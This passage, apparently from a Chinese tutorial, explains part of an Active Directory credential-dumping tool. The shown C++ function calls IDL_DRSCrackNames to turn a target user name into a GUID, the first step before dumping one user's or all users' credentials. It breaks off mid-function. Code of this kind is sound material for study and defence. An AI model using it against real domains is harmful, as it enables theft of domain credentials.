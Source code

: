 ### 获取目标用户的 GUID

Get_IDL_DRSBind 调用成功后，将继续调用自定义函数 Get_IDL_DRSCrackNames，该函数定义如下。在 Get_IDL_DRSCrackNames 内部通过 IDL_DRSCrackNames 函数查找并翻译活动目录对象的名称，在这里目的是获取要转储凭据的用户的 GUID。

在调用 Get_IDL_DRSCrackNames 之前，会先判断是否提供了 UserName 参数。如果是，就直接将提供的 UserName 传入 Get_IDL_DRSCrackNames，后续仅转储该用户的凭据；反之，则先获取并传入域 SID，后续将转储所有用户的凭据。

```c++
BOOL Get_IDL_DRSCrackNames(DRS_HANDLE hDrs, LPCWSTR UserName, GUID *pUserGuid)
{
	BOOL status = FALSE;
	ULONG drsStatus;
	DS_NAME_FORMAT rpNamesFormat;
	DRS_MSG_CRACKREQ nameCrackReq = { 0 };
	DWORD dwOutVersion = 0;
	DRS_MSG_CRACKREPLY nameCrackReply = { 0 };
	UNICODE_STRING UnicodeGuid;

	if (hDrs != NULL)
	{
		RpcTryExcept
		{
			if (wcsstr(UserName, L"S-1-5-21-") == UserName)
			{
				rpNamesFormat = DS_SID_OR_SID_HISTORY_NAME;
			}
			else if (wcschr(UserName, L'\\'))
			{
				rpNamesFormat = DS_NT4_ACCOUNT_NAME;
			}
			else if (wcschr(UserName, L'@'))
			{
				rpNamesFormat = DS_USER_PRINCIPAL_NAME;
			}
			else if (wcschr(UserName, L'='))
			{
				rpNamesFormat = DS_FQDN_1779_NAME;
			}
			else
			{
				rpNamesFormat = DS_NT4_ACCOUNT_NAME_SANS_DOMAIN;
			}

			nameCrackReq.V1.formatOffered = rpNamesFormat;
			nameCrackReq.V1.formatDesired = DS_UNIQUE_ID_NAME;
			nameCrackReq.V1.cNames = 1;
			nameCrackReq.V1.rpNames = &UserName;
			
			drsStatus = IDL_DRSCrackNames(hDrs, 1, &nameCrackReq, &dwOutVersion, &nameCrackReply);
			if (drsStatus == 0)
			{
				if (dwOutVersion == 1)
				{
					if (nameCrackReply.V1.pResult->cItems == 1)
					{
						drsStatus = nameCrackReply.V1.pResult->rItems[0].status;
						if (status = (drsStatus == 0))
						{
							RtlInitUnicodeString(&UnicodeGuid, nameCrackReply.V1.pResult->rItems[0].pName);
							RtlGUIDFromString(&UnicodeGuid, pUserGuid);
						}
						else
```